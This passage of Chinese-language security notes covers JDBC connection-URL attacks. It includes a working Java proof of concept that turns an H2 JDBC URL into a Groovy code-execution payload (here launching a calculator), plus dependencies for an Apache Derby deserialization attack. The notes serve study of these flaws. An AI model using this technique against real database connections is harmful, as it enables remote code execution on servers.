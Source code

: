 
#### Groovy

需要groovy依赖

```
<dependency>
    <groupId>org.codehaus.groovy</groupId>
    <artifactId>groovy-sql</artifactId>
    <version>3.0.9</version>
</dependency>
```

poc

```
package com.example.testspring;

import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class test {
    public static void main (String[] args) throws ClassNotFoundException, SQLException {
        String groovy = "@groovy.transform.ASTTest(value={" + " assert java.lang.Runtime.getRuntime().exec(\"open -a Calculator\")" + "})" + "def x";
        String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE ALIAS T5 AS '"+ groovy +"'";
        Connection conn = DriverManager.getConnection(url);
        conn.close();
    }
}
```

分析的话就参考https://su18.org/post/jdbc-connection-url-attack/#source-code-compiler

## Apache Derby

这里也只记录一个攻击方法，这次的攻击时通过反序列化的

依赖

```
<dependency>
    <groupId>org.apache.derby</groupId>
    <artifactId>derby</artifactId>
    <version>10.10.1.1</version>
</dependency>
<dependency>
    <groupId>commons-beanutils</groupId>
    <artifactId>commons-beanutils</artifactId>
    <version>1.9.4</version>
</dependency>
```

POC
